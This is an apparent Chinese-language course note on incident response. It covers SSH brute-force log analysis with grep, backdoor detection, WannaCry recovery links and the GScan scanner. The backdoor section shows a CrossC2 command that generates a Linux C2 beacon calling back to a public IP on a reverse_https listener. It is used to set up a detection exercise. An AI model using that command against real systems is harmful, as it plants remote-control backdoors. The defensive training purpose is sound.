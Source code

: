 # 思维导图

![](image74/7.png)

# 知识点

### 操作系统(windows,linux)应急响应：

1.常见危害：暴力破解，漏洞利用，流量攻击，木马控制(Webshell,PC 木马等)，病毒感染(挖矿，蠕
虫，勒索等)。

2.常见分析：计算机账户，端口，进程，网络，启动，服务，任务，文件等安全问题

### 常见日志类别及存储：

Windows,Linux

### 补充资料：

[https://xz.aliyun.com/t/485](https://xz.aliyun.com/t/485)
[https://www.secpulse.com/archives/114019.html](https://www.secpulse.com/archives/114019.html)
[https://docs.microsoft.com/en-us/sysinternals/](https://docs.microsoft.com/en-us/sysinternals/)

### 病毒分析

PCHunter：[http://www.xuetr.com](http://www.xuetr.com)
火绒剑：[https://www.huorong.cn](https://www.huorong.cn)
Process Explorer：[https://docs.microsoft.com/zh-cn/sysinternals/downloads/process-explorer](https://docs.microsoft.com/zh-cn/sysinternals/downloads/process-explorer)
processhacker：[https://processhacker.sourceforge.io/downloads.php](https://processhacker.sourceforge.io/downloads.php)
autoruns：[https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns](https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns)
OTL：[https://www.bleepingcomputer.com/download/otl/](https://www.bleepingcomputer.com/download/otl/)
SysInspector：[http://download.eset.com.cn/download/detail/?product=sysinspector](http://download.eset.com.cn/download/detail/?product=sysinspector)

### 病毒查杀

卡巴斯基：[http://devbuilds.kaspersky-labs.com/devbuilds/KVRT/latest/full/KVRT.exe](http://devbuilds.kaspersky-labs.com/devbuilds/KVRT/latest/full/KVRT.exe)
大蜘蛛：[http://free.drweb.ru/download+cureit+free](http://free.drweb.ru/download+cureit+free)
火绒安全软件：[https://www.huorong.cn](https://www.huorong.cn)
360 杀毒：[http://sd.360.cn/download_center.html](http://sd.360.cn/download_center.html)

### 病毒动态

CVERC-国家计算机病毒应急处理中心：[http://www.cverc.org.cn](http://www.cverc.org.cn)
微步在线威胁情报社区：[https://x.threatbook.cn](https://x.threatbook.cn)
火绒安全论坛：[http://bbs.huorong.cn/forum-59-1.html](http://bbs.huorong.cn/forum-59-1.html)
爱毒霸社区：[http://bbs.duba.net](http://bbs.duba.net)
腾讯电脑管家：[http://bbs.guanjia.qq.com/forum-2-1.html](http://bbs.guanjia.qq.com/forum-2-1.html)

### 在线病毒扫描网站

多引擎在线病毒扫描网/	 /[http://www.virscan.org](http://www.virscan.org ) 
腾讯哈勃分析系统/ 	 /[https://habo.qq.com](https://habo.qq.com ) 
Jotti 恶意软件扫描系统/	/[https://virusscan.jotti.org](https://virusscan.jotti.org ) 
计算机病毒、手机病毒、可疑文件分析	//[http://www.scanvir.com](http://www.scanvir.com ) 

# 演示案例

## 攻击响应-暴力破解(RDP,SSH)-Win,Linux

**案例 1-攻击响应-暴力破解(RDP,SSH)-Win,Linux**

#### Windows-LogFusion 载入查看

事件归类，事件 ID，事件状态等，参考百度资料

![](image74/74-02.png)



![](image74/74-03.png)

#### Linux-grep 筛选

1、统计了下日志，确认服务器遭受多少次暴力破解

```shell
grep -o "Failed password" /var/log/secure|uniq -c
```

2、输出登录爆破的第一行和最后一行，确认爆破时间范围：

```shell
grep "Failed password" /var/log/secure|head -1
grep "Failed password" /var/log/secure|tail -1
```

3、进一步定位有哪些 IP 在爆破？

```shell
grep "Failed password" /var/log/secure|grep -E -o "(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-
4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0- 9]?)"|uniq -c | sort -nr
```

4、爆破用户名字典都有哪些？

```shell
grep "Failed password" /var/log/secure|perl -e 'while($_=<>){ /for(.*?) from/; print "$1\n";}'|uniq -c|sort -nr
```

5、登录成功的日期、用户名、IP：

```shell
grep "Accepted " /var/log/secure | awk '{print $1,$2,$3,$9,$11}'
grep "Accepted " /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr | more
```



## 控制响应-后门木马(Webshell,PC)-Win,Linux

windows：默认配置测试
linux 借助 CrossC2 项目：netstat -ntulp
[https://github.com/gloxec/CrossC2](https://github.com/gloxec/CrossC2)
[https://github.com/darkr4y/geacon](https://github.com/darkr4y/geacon)
参考过程：[http://www.adminxe.com/1287.html](http://www.adminxe.com/1287.html)

1.项目上传至服务端目录，给予执行权限
2.配置监听器：
windows/beacon_https/reverse_https 阿里云记得端口放行
3.生成后门：
./genCrossC2.Linux 47.99.49.65 5566 null null Linux x64 C2
通过网络监听工具及 windows 日志分析或执行记录查找后门问题







## 危害响应-病毒感染(勒索 WannaCry)-Windows

**案例 3-危害响应-病毒感染(勒索 WannaCry)-Windows**
详细说明中毒表现及恢复指南

- 可以使用[360勒索病毒解密网站](https://lesuobingdu.360.cn/)进行病毒查询、在线解密等。
- [nomoreransom](https://www.nomoreransom.org/zh/index.html)网站尝试解密。
- 请专业团队进行恢复



## 自动化响应检测-Gscan 多重功能脚本测试-Linux

**案例 4-自动化响应检测-Gscan 多重功能脚本测试-Linux**
参考：[https://github.com/grayddq/GScan/](https://github.com/grayddq/GScan/)
自动化响应检测工具：GScan、chkrootkit、rkhunter、lynis
都下载一下，以备不时之需，应急响应时全都跑一遍
执行Gscan脚本即可
`python3  Gscan.py`

可以看到，黑客进行了哪些攻击行为，是否成功等等。

![](image74/74-01.png)

# 涉及资源：

[https://xz.aliyun.com/t/485](https://xz.aliyun.com/t/485)
[https://lesuobingdu.360.cn/](https://lesuobingdu.360.cn/)
[https://github.com/gloxec/CrossC2/](https://github.com/gloxec/CrossC2/)
[https://github.com/darkr4y/geacon/](https://github.com/darkr4y/geacon/)
[https://github.com/grayddq/GScan/](https://github.com/grayddq/GScan/)
[https://bbs.pediy.com/thread-217586-1.htm](https://bbs.pediy.com/thread-217586-1.htm)
[https://www.nomoreransom.org/zh/index.html](https://www.nomoreransom.org/zh/index.html)
[https://docs.microsoft.com/en-us/sysinternals/](https://docs.microsoft.com/en-us/sysinternals/)
[https://www.secpulse.com/archives/114019.html](https://www.secpulse.com/archives/114019.html)
[https://pan.baidu.com/s/1tQS1mUelmEh3I68AL7yXGg 提取码：xiao](https://pan.baidu.com/s/1tQS1mUelmEh3I68AL7yXGg 提取码：xiao)